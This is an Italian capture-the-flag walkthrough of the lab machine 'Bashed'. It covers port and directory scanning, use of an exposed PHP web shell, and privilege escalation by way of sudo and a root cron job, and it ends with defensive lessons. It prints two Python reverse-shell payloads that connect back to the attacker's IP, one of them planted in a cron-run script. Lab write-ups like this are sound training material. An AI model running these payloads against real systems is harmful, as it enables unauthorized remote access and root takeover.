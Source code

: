 **Author: Noto La Diega Alessandro** 

**TARGET: 10.10.10.68**

# INFORMATION GATHERING #

Iniziamo con un scan base di nmap

```bash
┌──(rot㉿kali)-[/home/kali]
└─# [[Nmap]] -sC -sV -p- 10.10.10.68
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 09:19 EDT
Stats: 0:00:10 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 21.60% done; ETC: 09:19 (0:00:36 remaining)
Nmap scan report for 10.10.10.68
Host is up (0.046s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.76 seconds
```
# ENUMERATION

Analizzando la pagina vediamo che il sito è in php e sembra rimandare a questa pagina github:
https://github.com/Arrexel/phpbash

Proviamo a trovare altre path del sito tramite [[Gobuster]]:
```Bash 

┌──(root㉿kali)-[/home/kali]
└─# gobuster dir -u http://10.10.10.68 -t 10 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.68
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/05/05 09:29:29 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
Progress: 2172 / 81644 (2.66%)^Z
zsh: suspended  gobuster dir -u http://10.10.10.68 -t 10 -w 
```

Nella path /dev/troviamo phpbash.php che semmbre essere una shell in php 

# EXPLOITATION


Scopriamo che siamo utenti www-data e che il sistema operativo è 
Linux bashed 4.4.0-62-generic 83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

Ci mettiamo in ascolto con nc sulla porta 4444
```
┌──(root㉿kali)-[/home/kali]
└─# nc -nvlp 4444               
listening on [any] 4444 ...nc -nvlp 4444
```

Sulla macchina target vediamo se è installato pyhton
which python

utilizziamo questa stringa per ottenere sun revshell

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.27",4444));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'

>mettiamo il nostro ip e la porta sulla quale siamo in ascolto 

Otteniamo cosi una shell

```bash

┌──(root㉿kali)-[/home/kali]
└─# nc -nvlp 4444               
listening on [any] 4444 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.68] 35064
/bin/sh: 0: can't access tty; job control turned off
$ ls      
html
$ 
```

Ci muoviamo fino alle /home e otteiamo la flag

# PRIVESC 

Vediamo con sudo -l se possiamo eseguire qualcosa con privilegi da root

```bash 
www-data@bashed:/home/arrexel$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
www-data@bashed:/home/arrexel$ 
```

Dalla ultima stringa possiamo vedere che come utente www-data possiamo eseguire programmi come utente scriptmanager senza password.
Enumerando ulteriormente possiamo vedere che tutte le cartelle sono di proprietà root tranne la directory script che è di proprietà di scriptmanger

```bash

www-data@bashed:/$ ls -la
total 92
drwxr-xr-x  23 root          root           4096 Jun  2  2022 .
drwxr-xr-x  23 root          root           4096 Jun  2  2022 ..
-rw-------   1 root          root            174 Jun 14  2022 .bash_history
drwxr-xr-x   2 root          root           4096 Jun  2  2022 bin
drwxr-xr-x   3 root          root           4096 Jun  2  2022 boot
drwxr-xr-x  19 root          root           4140 May  5 06:18 dev
drwxr-xr-x  89 root          root           4096 Jun  2  2022 etc
drwxr-xr-x   4 root          root           4096 Dec  4  2017 home
lrwxrwxrwx   1 root          root             32 Dec  4  2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  19 root          root           4096 Dec  4  2017 lib
drwxr-xr-x   2 root          root           4096 Jun  2  2022 lib64
drwx------   2 root          root          16384 Dec  4  2017 lost+found
drwxr-xr-x   4 root          root           4096 Dec  4  2017 media
drwxr-xr-x   2 root          root           4096 Jun  2  2022 mnt
drwxr-xr-x   2 root          root           4096 Dec  4  2017 opt
dr-xr-xr-x 173 root          root              0 May  5 06:18 proc
drwx------   3 root          root           4096 Jun  2  2022 root
drwxr-xr-x  18 root          root            520 May  5 06:25 run
drwxr-xr-x   2 root          root           4096 Dec  4  2017 sbin
drwxrwxr--   2 scriptmanager scriptmanager  4096 Jun  2  2022 scripts
drwxr-xr-x   2 root          root           4096 Feb 15  2017 srv
dr-xr-xr-x  13 root          root              0 May  5 06:18 sys
drwxrwxrwt  10 root          root           4096 May  5 07:02 tmp
drwxr-xr-x  10 root          root           4096 Dec  4  2017 usr
drwxr-xr-x  12 root          root           4096 Jun  2  2022 var
lrwxrwxrwx   1 root          root             29 Dec  4  2017 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
www-data@bashed:/$ cd scripts/
bash: cd: scripts/: Permission denied
www-data@bashed:/$ ls
```

con il comando seguente cambiamo utente in scriptmanager

```bash
www-data@bashed:/$ sudo -i -u scriptmanager
scriptmanager@bashed:~$ 
```

Nella cartella script troviamo due file 

```
scriptmanager@bashed:/scripts$ ls
test.py  test.txt
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ 
```

È un semplice programma Python che scrive nel file test.txt.
Tuttavia, abbiamo visto nell'immagine precedente che test.txt è in esecuzione come root! Anche l'esecuzione del programma python sembra essere pianificata poiché l'ora dell'ultimo accesso al file test.txt è molto recente.
In effetti, lo script sembra essere eseguito ogni minuto!
Probabilmente è un cron job di proprietà di root.
Perché questa è una grande notizia per noi in quanto se cambio il contenuto nel file test.py per inviare una shell inversa, quella shell inversa verrà eseguita come root!


Prima cosa mi metto in ascolto con nc 
```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -nvlp 5555
listening on [any] 5555 ...
```

modifico con nano il file .py con la shell inversa in python che segue:

import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((“10.10.14.30”,5555)) 
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);

Ottenaimo cosi un shell da root

```bash
┌──(rot㉿kali)-[/home/kali]
└─# nc -nvlp 5555    
listening on [any] 5555 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.68] 42068
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

# LESSON LEARN

1. Lo sviluppatore non avrebbe dovuto disporre di una web shell che consentisse pubblicamente l'accesso al suo sistema.
2. Una configurazione errata delle autorizzazioni può portare a conseguenze disastrose. Perché l'utente daemon web (www-data) è stato autorizzato a diventare un utente più privilegiato (scriptmanager)? Allo stesso modo, perché uno script creato da un utente non root (test.py) è stato eseguito come root? Questi sono noti come errori di configurazione della sicurezza. 
3. Lo sviluppatore non deve disporre di directory sensibili pubblicamente accessibili disponibili sul proprio server, in quanto come dimostrato è stata facilmente trovata da gobuster.
